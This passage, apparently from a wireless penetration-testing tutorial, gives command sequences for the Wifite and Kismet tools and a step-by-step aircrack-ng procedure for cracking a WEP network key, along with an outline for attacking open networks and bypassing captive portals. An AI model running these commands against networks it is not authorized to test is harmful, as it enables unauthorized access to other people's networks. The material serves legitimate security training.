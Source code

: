 ### Wifite (Automated Tool)

#### Basic Usage

```bash
# Automatic WEP/WPS cracking
sudo wifite

# Target specific encryption
sudo wifite --wep
sudo wifite --wps

# Custom wordlist
sudo wifite --dict /path/to/wordlist.txt

# Save results
sudo wifite --crack-dir /root/wifi-cracks/
```

### Kismet (Professional Monitoring)

#### Setup and Usage

```bash
# Start kismet server
sudo kismet

# Command line interface
sudo kismet_client

# Configure data source
sudo kismet -c wlan0:name=monitoring
```

## Common Attack Scenarios

### Scenario 1: Open Network Assessment

```bash
# Target: Open WiFi network
1. Connect to network
2. Perform network reconnaissance
3. Identify services and hosts
4. Test for captive portal bypass
5. Assess internal network security
```

### Scenario 2: WEP Network Cracking

```bash
# Step-by-step process
1. sudo airmon-ng start wlan0
2. sudo airodump-ng -c [CHANNEL] --bssid [AP_MAC] -w wep_test wlan0mon
3. sudo aireplay-ng -1 0 -a [AP_MAC] wlan0mon
4. sudo aireplay-ng -3 -b [AP_MAC] wlan0mon
5. aircrack-ng wep_test-01.cap
```
